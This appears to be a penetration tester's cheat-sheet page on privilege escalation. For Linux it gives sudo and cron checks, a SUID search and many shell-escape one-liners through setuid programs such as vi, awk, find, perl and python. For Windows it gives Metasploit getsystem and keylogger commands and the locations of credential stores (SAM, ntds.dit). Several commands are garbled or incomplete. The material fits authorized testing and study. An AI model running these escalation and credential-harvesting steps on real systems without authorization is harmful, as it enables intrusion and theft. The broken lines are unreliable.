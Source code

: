 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

check sudo permissions | sudo -l
Cron.d | Write a file to cron.d and wait for restart
Cron files | Can any of the cron files be tampered with
Kernal Exploit | <code>Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection <br> Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> <br> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd

Resources:
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [scripts](https://netsec.ws/?p=309)


**setuid permissions**
 
{% highlight bash %}

vi:
:shell
:set shell=/bin/bash
:! /bin/bash

less:
(press v - launching vi) :shell

more:
?,  !bash

more,less, man:
'! /bin/sh'
'!/bin/sh'
'!bash'

tee:
echo "evil script code" | tee script.sh

awk:
awk 'BEGIN {system("/bin/sh")}'

find . -exec bash -i \;
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

perl exec ""/bin/bash"";[ctrl-d]
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

ruby exec ""bin/bash""
ruby: exec "/bin/sh"

python import os os.system('/in/bash')
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

lua: os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"

nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)


